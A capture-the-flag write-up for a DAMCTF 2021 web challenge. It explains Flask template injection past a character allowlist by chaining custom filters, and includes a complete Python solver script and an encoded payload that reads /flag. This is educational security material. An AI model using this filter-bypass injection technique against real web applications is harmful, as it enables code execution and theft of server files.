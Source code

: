 ```yaml
---
layout: post
title:  "[DAMCTF] super-secure-translation-implementation"
date:   "2021-11-07"
categories: [Web, Golf]
author: voidPtr
app_img: /assets/posts_images/super-secure-translation-implementation/app.PNG
check_img: /assets/posts_images/super-secure-translation-implementation/check.PNG
filters_img: /assets/posts_images/super-secure-translation-implementation/filters.PNG
payloadBase_img: /assets/posts_images/super-secure-translation-implementation/payloadBase.PNG
payloadFilter_img: /assets/posts_images/super-secure-translation-implementation/payloadFilter.PNG
---
```


The website show us the source code running on the site.  
<figure>
<img src="{{ page.app_img }}" alt="app.py">
</figure>

As we can see, it is possible to request any path as long as it exists and is in the same folder of app.py. 
Moreover, there's a path on the site, "/secure_translate/", where we can pass an argument "payload" and the server will extend the base code with our input. The perfet setup for a Server Side Template Injection.  
The problem is that our input is sanitized with a function "detect_remove_hacks". Looking at the import of this page, that function is in the file check.py. We can just request its source code in the path with "/check.py".  
<figure>
<img src="{{ page.check_img }}" alt="check.py">
</figure>

Here we can see that our input is restricted to a very limited set of characters, and to a given max lenght calculated from an external library ("rctf", imported in limit.py). An admin later told me that this limit is based on the first solve on th platform: in my case it was 161 chars. Painful.  

We need one more step before starting to build the payload: in app.py, before defining the routes, there are some custom filters added to the server for string manipulation as we can see in the comment above. Let's look at those functions in the file filters.py.
<figure>
<img src="{{ page.filters_img }}" alt="filters.py">
</figure>
There are some useful functions to convert a character in its ascii decimal notation and vice-versa, and a function that evaluates an input if it does not contain words from a blacklist, and if its initials 4 characters are not "open" or "eval".

First things first, let's try if we can make a simple template injection. Since we know we are on flask, let's try something that is not forbidden by the detect_remove_hacks() function, for example {%raw%}{{6*6}}{%endraw%}.
<figure>
<img src="{{ page.payloadBase_img }}" alt="payloadBase">
</figure>

Perfect, now we are sure that there's a way of making the server do what we want. The question is, how? We have only a bunch of chars to use, and there's not a payload using only that chars. My first answer was to try using ord() and chr() functions (python built-ins). But for some reason the server returns 500 if we try to use built-in functions inside the payload. So it came to my mind the custom filters implemented by filters.py. We can chain them to obtain another character starting from one of the allowed chars. For example, to obtain "a" we could do something like {%raw%}{{("b"|order-1)|ch}}{%endraw%}:
<figure>
<img src="{{ page.payloadFilter_img }}" alt="payloadFilter">
</figure>

Now that we know how to obtain an arbitrary character and that we can chain filters, my guess was to craft a payload and pass it to the e() function to evaluate it.
The problem now is the max lenght of the payload of 161 chars.
I wrote a python script to automate the translation of a char to its equivalent in the order|ch chain, and spent many time optimizing it to reduce the number of characters used. This was painful.  

Finally I came up with a payload, but it was of something like 174 chars. The ultimate "golf" of my code to reduce its length was to substitute the order part with its equivalent in number operations, using only the digits in the whitelist (otherwise we should translate them).
For example {%raw%}{{('l'|order+4)|ch}} == {{(111+1)|ch}} == "p"{%endraw%}.
I've done this manually because the time was almost finished and I didn't had time to automate it, but here's the script to obtain the payload until this last translation.
```python
import requests

TARGET_URL = 'https://super-secure-translation-implementation.chals.damctf.xyz'

previousNotEncoded = True

def findBestEncoding(c, l):
    resList = []
    for allowed in l:
        res = ""
        toAdd = ""
        sign = "+"
        
        toAdd = str(ord(c) - ord(allowed))
        if int(toAdd) < 0:
            sign = "-"
        if toAdd not in l:
            i = int(toAdd)
            if i == 2:
                toAdd = "1"+sign+"1"
            elif i == 3:
                tempSign = "-"
                if sign == "-":
                    tempSign = "+"
                toAdd = "4"+tempSign+"1"
            elif i == 5:
                toAdd = "4"+sign+"1"
            elif i == 7:
                toAdd = "1"+sign+"6"
            elif i == 8:
                toAdd = "4"+sign+"4"
            elif i == 9:
                toAdd = "4"+sign+"4"+sign+"1"
            else:
                toAdd1 = "1" + (sign+"1") * (abs(i)-1)
                atLeast4 = i // 4
                rest4 = i % 4
                toAdd4 = "4" + (sign+"4") * (abs(atLeast4)-1) + (sign+"1") * rest4
                atLeast6 = i // 6
                rest6 = i % 6
                toAdd6 = "6" + (sign+"6") * (abs(atLeast6)-1) + (sign+"1") * rest6
                if len(toAdd4) > len(toAdd6):
                    toAdd = toAdd6
                else:
                    toAdd = toAdd4
                if len(toAdd1) < len(toAdd):
                    toAdd = toAdd1
        res += "('"+allowed+"'|order"+ sign+toAdd+")|ch"
        resList.append(res)
    shortest = min(resList, key=len)
    return shortest


def codeStringEnhanced(s):
    global previousNotEncoded
    allowlist = [
        '"', "'", '(', ')', '{', '|', '}', '*', '+', '-', '1', '4', '6', 'b', 'c', 'd', 'e', 'h', 'l', 'o', 'r', 'u'
    ]
    res = ""
    for c in s:
        if res != "":
            if not previousNotEncoded:
                res += "+"
        if c in allowlist:
            if res == "":
                res += "'"
            if previousNotEncoded:
                res += c
            else:
                res += "'"+c
            previousNotEncoded = True
        else:
            if previousNotEncoded and res != "":
                res += "'+"
            res += findBestEncoding(c, allowlist)
            previousNotEncoded = False
    if previousNotEncoded:
        res += "'"
    res += ")"
    return res


# cmd = 'forbidlist[5]'
# cmd = '"".__class\__'
# cmd = '(eval("globals()[4]"))'
# cmd = '["b","d"]|map("u")'
# cmd = '''(eval("y('id')")'''
# cmd = 'globals()'
cmd = '(open("/flag").read())'
code = codeStringEnhanced(cmd)
payload = "{{"+code+"}}"
payload = payload.replace("'''", '"\'"')

# payloadF1 = "{{(" + code + "|e}}"
codeManual = ''''(o'+(66+44+1+1)|ch+'e'+(66+44)|ch+'("'+(44+1+1+1)|ch+(66+6*6)|ch+'l'+(4*4*6+1)|ch+(66+6*6+1)|ch+'")'+(46)|ch+'re'+(4*4*6+1)|ch+'d())')'''
payloadF1 = "{{(" + codeManual + "|e}}"
payloadF = payloadF1.replace("+", "%2B") # need this to avoid html/url errors
print(payloadF)
print(f"PAYLOAD LENGHT: {len(payloadF1)}")


r = requests.post(TARGET_URL+'/secure_translate/?payload='+payloadF)
print(f"RETURN CODE: {r.status_code}")

if(r.status_code == 200):
    text = r.text.split("<code>")[1].split("</code>")[0].split("<p>")[1].split("</p>")[0]
    text = text.strip()
    print("RESULT:")
    print(text)
else:
    print(r.text)
```
In the code above there are some commands I tried along the way ("cmd" variable).
The final payload is (open("/flag").read()). The external parenthesis are there to avoid the control in the e() filter. Its translations is:
```text
{%raw%}{{('(o'%2B(66%2B44%2B1%2B1)|ch%2B'e'%2B(66%2B44)|ch%2B'("'%2B(44%2B1%2B1%2B1)|ch%2B(66%2B6*6)|ch%2B'l'%2B(4*4*6%2B1)|ch%2B(66%2B6*6%2B1)|ch%2B'")'%2B(46)|ch%2B're'%2B(4*4*6%2B1)|ch%2B'd())')|e}}{%endraw%}
```
Its lenght is of 142 chars ("%2B" is translated in "+", so it is counted as a single char). Probably there are shorter payloads, but this has done the trick for me.  
Sending it to the server will give us our flag.

```
dam{p4infu1_all0wl1st_w3ll_don3}
```
